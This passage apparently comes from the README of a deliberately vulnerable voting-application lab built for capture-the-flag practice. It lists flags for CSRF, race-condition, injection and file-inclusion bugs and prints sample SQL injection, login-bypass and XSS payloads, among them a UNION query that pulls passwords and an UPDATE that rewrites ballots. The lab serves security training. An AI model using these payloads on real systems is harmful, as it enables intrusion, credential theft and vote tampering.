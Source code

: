 ### Level 7: CSRF & Logic Flaws
**FLAG-CSRF-001**: Vote submission without CSRF token
**FLAG-CSRF-002**: User deletion without verification
**FLAG-CSRF-003**: Admin actions without CSRF protection
**FLAG-LOGIC-001**: Race condition in vote counting
**FLAG-LOGIC-002**: Integer overflow in citizen numbers

### Level 8: Advanced Exploitation
**FLAG-ADV-001**: Second-order SQL injection
**FLAG-ADV-002**: Blind SQL injection timing attacks
**FLAG-ADV-003**: File inclusion vulnerability
**FLAG-ADV-004**: Command injection potential

## 📚 Vulnerability Categories

### 1. SQL Injection Examples
```sql
-- Login bypass
Username: admin' OR '1'='1
Password: anything

-- Data extraction
ZipCode: 28223' UNION SELECT username,password,1,2,3,4 FROM person_info--

-- Vote manipulation
president: '; UPDATE ballot SET President_Selection='Hacker' WHERE 1=1--
```

### 2. Authentication Bypass
```php
// Hardcoded credentials
Username: Admin187
Password: password187

// Session manipulation
// Access admin pages directly without login
```

### 3. XSS Payloads
```html
<!-- Reflected XSS -->
<script>alert('FLAG-XSS-001')</script>

<!-- Stored XSS in candidate description -->
<img src=x onerror=alert('FLAG-XSS-002')>
```

## 🔧 Setup Instructions

### Prerequisites
- Docker & Docker Compose
- Kali Linux (recommended) or any Linux distribution
- Burp Suite Community Edition / OWASP ZAP
